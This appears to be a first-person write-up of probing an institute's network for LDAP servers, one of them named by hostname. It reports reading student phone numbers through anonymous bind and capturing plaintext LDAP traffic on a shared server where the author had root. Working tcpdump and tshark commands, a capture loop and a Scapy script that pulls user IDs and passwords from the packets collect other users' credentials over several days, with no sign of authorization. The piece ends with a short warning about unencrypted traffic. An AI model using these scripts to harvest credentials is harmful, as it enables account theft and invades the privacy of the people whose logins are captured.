






## LDAP Servers on Network
I decided to investigate the LDAP servers within my institute's private network, which utilizes Class B private IP addresses.<br />
I employed [Gill-Singh-A/Port-Scanner](https://github.com/Gill-Singh-A/Port-Scanner) to scan for LDAP ports (389, 636, 3268, 3269) and discovered 49 devices with at least one of these ports open.<br />

## LDAP Anonymous Bind
Following that, I used [Gill-Singh-A/LDAP-Anonymous-Bind-Checker](https://github.com/Gill-Singh-A/LDAP-Anonymous-Bind-Checker) to assess LDAP Anonymous Bind support, finding that 32 devices allowed anonymous binding.<br />
<br />
After some exploration, I discovered the LDAP server responsible for managing authentication requests for our Computer Center’s credentials.<br />
The server was identified by the hostname **ldap.cc.iitk.ac.in**, supported LDAP Anonymous Bind.
## Computer Center LDAP Server
After manually exploring **ldap.cc.iitk.ac.in**, I discovered that I could retrieve any student’s mobile number using a simple search query.<br />
<br />
However, what truly alarmed me was that the server was not utilizing SSL for data transmission over the network. This meant that all Computer Center credentials used for authenticating to services like Web Mail and SSH servers were being transmitted as plaintext, making them easily accessible to anyone intercepting the traffic.<br />

## Network Traffic Capture
To verify my suspicions, I launched **tcpdump** on a remote server at our institute where I had root access and where users can SSH in using their Computer Center credentials. I began intercepting the network traffic on that server. Specifically, I filtered for port 389 to capture only LDAP traffic.
```bash
sudo /usr/sbin/tcpdump -s 65535 -w network_traffic_capture.pcap 'tcp port 389'
```
After successfully logging into the server using my Computer Center credentials on another terminal, I stopped the network capture and downloaded the pcap file for further analysis.
## Network Traffic Analysis
After opening the pcap file in **Wireshark** and conducting some analysis, I was able to find my Computer Center user ID and password in plaintext within an LDAP Bind Request.<br />
<br />
This confirmed my suspicions: the Computer Center credentials were indeed transmitted as plaintext.
## Capturing using tshark
Next, I created a simple bash script that utilized **tshark** to capture LDAP network traffic on the server and save it into a pcap file. The script processes the pcap file once it reaches 100 MB, filtering to include only LDAP Bind Requests and storing the results in my NFS (Network File System) Directory.
```bash
#! /bin/bash

index=0

while true; do
	/usr/sbin/tshark -w webhome.pcap -i 1 -f "tcp port 389" -a filesize:100000
	/usr/sbin/tshark -r webhome.pcap -R "frame contains \"ou=People,dc=iitk,dc=ac,dc=in\" and ldap.bindRequest" -w webhome_filtered_${index}.pcap
	chmod 600 webhome_filtered_${index}.pcap
	rm -f webhome.pcap
	((index++))
done
```
## Extracting Passwords from Capture File
After collecting LDAP Bind Requests for some days, I downloaded the processed capture file and created a simple Python script using [Scapy](https://scapy.net/) to extract the user IDs and their corresponding passwords. This allowed me to determine how many credentials I had successfully retrieved.
```python
#! /usr/bin/env python3

from sys import argv
from scapy.all import rdpcap, LDAP_BindRequest, TCP, LDAP
from colorama import Fore

packets = rdpcap(argv[1])              # argv[1] Network Capture File (.pcap)

for pkt in packets:
    if LDAP_BindRequest in pkt and pkt[TCP][LDAP][LDAP_BindRequest].authentication.val != b'':
        print(f"{Fore.CYAN}{pkt[TCP][LDAP][LDAP_BindRequest].bind_name.val.decode().split(',')[0].split('=')[1]}\t{Fore.RESET}=>\t{Fore.GREEN}{pkt[TCP][LDAP][LDAP_BindRequest].authentication.val.decode()}{Fore.RESET}")
```
The following was the output<br />
<br />
## Conclusion
This investigation revealed significant security concerns regarding the transmission of sensitive data over unencrypted connections. It's crucial to implement proper security measures to protect user information in our digital landscape.<br />
As we navigate our digital landscape, it’s essential to ensure that proper security measures are in place to protect user information.